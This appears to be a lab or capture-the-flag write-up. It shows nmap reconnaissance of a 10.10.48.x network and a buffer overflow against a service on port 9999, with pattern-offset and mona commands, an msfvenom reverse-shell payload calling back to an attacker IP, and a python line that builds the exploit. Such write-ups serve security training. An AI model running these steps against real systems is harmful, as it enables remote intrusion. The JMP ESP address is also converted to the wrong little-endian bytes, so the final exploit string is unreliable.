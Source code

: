 # Recon

## Hosts

`sudo nmap -sn 10.10.48.42/24`
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-21 12:50 EST
Nmap scan report for 10.10.48.1
Host is up (0.043s latency).
Nmap scan report for 10.10.48.100
Host is up (0.045s latency).
Nmap scan report for 10.10.48.186
Host is up (0.044s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 22.10 seconds

## Ports
Nmap scan report for **10.10.48.42**
Host is up (0.046s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
3389/tcp open  ms-wbt-server
9999/tcp open  abyss

Nmap scan report for **10.10.48.100**
Host is up (0.043s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http

Nmap scan report for **10.10.48.186**
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
111/tcp open  rpcbind 2-4 (RPC #100000)

## Buffer overflow

Checking out the service on port 9999:

![Service port 9999](./img/service_port_9999.PNG)

Fuzzing it: Crash after sending **4700** bytes


Create a pattern:
`/usr/share/metasploit_framework/tools/exploit/pattern_create.rb -l 5200` 

`!mona findmsp -distance 5200`  
EIP contains normal pattern : 0x31704330 (offset 2012)

**Badchars**:  
Let's ignore it for now (we'll later see that the msfvenom payload does not contain bad chars)

**JMP ESP**:  
`!mona jmp -r esp -cpb "\x00"`
Found some in the provided essfunc.dll
e.g. **625014DF** ---Little Endian---> **\x03\x15\x50\x62**

Generate shell code:  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.9.188.225 LPORT=4445 EXITFUNC=thread -b '\x00' -f c` (payload size 351 bytes)

Our final code:  
`python -c "print('\x90' * 2012 + '\x03\x15\x50\x62' + '\x90' * 30 + '[payload]')"`

## Looting
Yay, that worked!

![Access](./img/acces.png)